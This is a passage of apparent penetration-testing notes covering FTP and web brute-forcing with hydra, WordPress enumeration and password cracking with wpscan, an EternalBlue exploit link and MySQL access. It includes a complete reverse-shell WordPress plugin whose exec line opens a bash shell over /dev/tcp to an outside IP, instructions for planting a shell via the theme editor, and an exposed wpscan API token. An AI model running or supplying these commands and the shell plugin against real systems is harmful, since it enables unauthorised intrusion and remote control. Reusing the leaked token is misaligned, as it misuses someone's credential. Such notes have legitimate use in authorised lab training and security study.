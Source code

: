 ```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.x.x ftp
```
### Web Servers
If web login form simultaneously run hydra
```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.x.x http-post-form "/admin/login.php:username=^USER^&password=^PASS^:User name or password incorrect"
```
	Change the path of /admin/login.php to whatever you find in burp's request history. The error message in the final : delimited colums also needs to be changed as well to match what is found.

If wordpress then run wpscan and enumerate 
```
wpscan --url http://192.168.x.x/wordpress/ -e -t 25 -v  --force --api-token Sy5tZcHbYUJyHJbw6TbZBNqiyIO9copNXdF6Zkzh3cg -o WPScan.txt
```

If Users are found from enumeration "-e" then crack their logins

```
wpscan --url http://192.168.x.x/wordpress/ -t 20 -v  --force -U admin,user1,user2 -P /usr/share/wordlists/rockyou.txt
```

Once logged in then add in pentest monkey's reverse shell php code into the theme editor on one of the pages
![[Pasted image 20231105103720.png]]

Or upload the reverse shell plugin as a zip file
https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell
```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'");
?>
```
### Samba
Non Metasploit Eternal Blue Exploit
https://github.com/3ndG4me/AutoBlue-MS17-010/blob/master/README.md

## Access
MySQL has a specific way of accessing it since you need -p but type the password later
```sh
mysql --host=192.168.x.x --port=3306 --user=USERNAME -p
```

